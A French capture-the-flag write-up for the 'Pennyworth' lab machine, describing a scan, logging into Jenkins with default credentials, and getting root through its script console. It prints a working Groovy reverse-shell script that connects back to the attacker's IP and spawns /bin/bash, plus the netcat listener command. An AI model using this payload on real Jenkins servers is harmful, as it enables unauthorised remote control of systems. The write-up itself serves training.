 # PENNYWORTH

## Process

Alors c'est parti aprés un nmap seul un port est ouvert le `8080`!
Je fonce sur le navigateur est tape:`
```bash
{targetIP}:8080
```

Une page avec un login est password s'affiche, connection via user: `root` est password: `password`. <br/>

J'ai noter que le service qui run est `Jetty 9.4.39.v20210325`.<br/>
Voyons ci cela peut m'ettre d'une quelconque utilité.
On note aussi la version une fois sur la target `Jetty 2.289.1`<br/>
Peut étre que cela peut nour servir aussi.<br/>

Je pense avoir trouver une information pertinente qui permet d'obtenir les droit administrateur celle ci est la `CVE-2021-21671` j'espére que c'est la bonne!<br/>

Alors avant toute chose répondons au question qui nous sont donner.

Je comprend alors qu'il vas falloir faire une injection d'un script groovy pour pouvoir obtenir un shell et que pour obtenir les commande il faut que je fasse en sorte que mon script s'execute en demandant l'accés a `cmd` avec `cmd.exe`.

Dans les question il demande aussi quelle est la commande autre que `ip a` pour avoir des information sur l'interface réseaux. Il ce trouve que c'est `ifconfig`. A quoi cela vas me servir je ne sais pas encore mais réfléchissons au probleme! Peut être que les prochaine quesion vont un peu plus m'orienter.

Donc avec les deux dernière on me parle du flag `-u` qui permet de switch le mode de transport via `UDP` avec netcat. Ainsi la dernière question me donne ce que l'on savait déjà ils vas nous falloir faire un reverse shell. C'est parti avec ces information je vais essayer de trouver le moyen de m'introduire sur cette machines. 


Donc en naviguant sur le site sur le quelle on ce trouve dans les parametre de management de kenkins on y trouve un onglet console en y cliquant dessus on tombe donc sur une console! Surement l'endroit on l'on pourras insérer notre script groovy.

Dans le payloads all the thing on regarde si il y a des information sur comment obtenir un reverse shell via un groovy script.
```bash
PayloadsAllTheThings/Methodology\ and\ Resources
```

A l'intérieur on peut:
```bash
cat Reverse\ Shell\ Cheatsheet.md 
```

Ainsi on peut y trouver une section groovy sur le quelle on [clique](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#ognl) ce qui nous enmene sur un lien qui nous explique la marche à suivre pour le script a inserer dans la console.

Une fois le script récuperer et modifier! 

```bash
String host="[notre_ip]";
int port=[port_decoute_sur_notre_machine dans mon cas 443];
String cmd="[commande_que_l'on_veut_executer dans mon cas "/bin/bash"]";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
On met en place un ncat:

```bash
nc -lvnp 443
```
On le lance puis on retourne sur le site pour run le code entrer dans la console.
Un fois run notre ncat nous retourne un shell celui qui nous permet d'obtenir notre petit flag.txt dans le root!